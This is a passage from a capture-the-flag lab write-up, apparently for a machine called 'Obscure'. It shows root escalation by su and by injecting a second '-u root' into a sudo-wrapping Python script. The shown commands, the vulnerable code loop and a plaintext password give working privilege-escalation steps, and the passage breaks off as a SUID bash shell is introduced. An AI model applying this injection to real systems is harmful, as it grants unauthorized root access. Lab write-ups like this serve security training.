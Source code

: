 
Now I can `su` and get a root shell:

    
    
    robert@obscure:/dev/shm$ su -
    Password: 
    root@obscure:~#
    

And get `root.txt`:

    
    
    root@obscure:~# cat root.txt 
    512fd4429f**********************
    

### Path 2: Inject into sudo

Looking more closely at what happens when auth is successful, it enters this
loop:

    
    
    while True:
        command = input(session['user'] + "@Obscure$ ")
        cmd = ['sudo', '-u',  session['user']]
        cmd.extend(command.split(" "))
        proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        o,e = proc.communicate()
        print('Output: ' + o.decode('ascii'))
        print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
    

The string passed to `subprocess.Popen` is `sudo -u [user] [user input]`. The
trick here is to pass a second `-u root` before the rest of the command. To
demonstrate, my local kali host has a user, df:

    
    
    root@kali# sudo -u df id
    uid=1000(df) gid=1000(df) groups=1000(df),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),132(scanner)
    root@kali# sudo -u df -u root id
    uid=0(root) gid=0(root) groups=0(root)
    

So, I’ll run the program normally, auth as robert, but then use it to read
`root.txt`:

    
    
    robert@obscure:/dev/shm$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
    Enter username: robert
    Enter password: SecThruObsFTW
    Authed!
    robert@Obscure$ -u root cat /root/root.txt
    Output: 512fd442************************
    

I could easily get a shell from here. For example, I can make a SUID `bash`:
